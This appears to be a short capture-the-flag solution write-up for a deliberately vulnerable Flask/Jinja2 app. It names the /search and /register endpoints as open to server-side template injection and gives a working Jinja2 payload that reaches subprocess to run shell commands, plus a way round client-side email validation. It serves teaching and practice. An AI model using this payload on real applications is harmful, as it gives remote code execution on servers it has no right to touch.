 # SSTI Solution 

**Backend:**  Flask, Flask-SqlAlchemy, Bcrypt, Jinja2

Vulnerable endpoints: 
	-> /search?q=**{{vulnerable}}**	
	-> /register (username input is vulnerable)

### Exploitation:

=> <u>Method 1 (Easy/Medium)</u>:

GET parameter 'q' in endpoint `/search` is vulnerable to SSTI. 
**RCE payload:** 
```
{{''.__class__.__base__.__subclasses__()[415]('cat flag', shell=True, stdout=-1).communicate()}} 
```
(indices differ by system)
Other payloads: https://github.com/payloadbox/ssti-payloads

=> <u>Method 2 (Harder) :</u>

* Try Registering as {{7*7}}, Client side prevents submission of usernames that is not email. 

```
<input type="email" class="form-control" id="email" name="username" required="">
```  
Remove Type attribute or change to "text".

* after registering and login, visit /profile. the reflected username shows executed code. (49)

**TODOs:** 
-> Frontend changes.
-> Change secret key to env var.
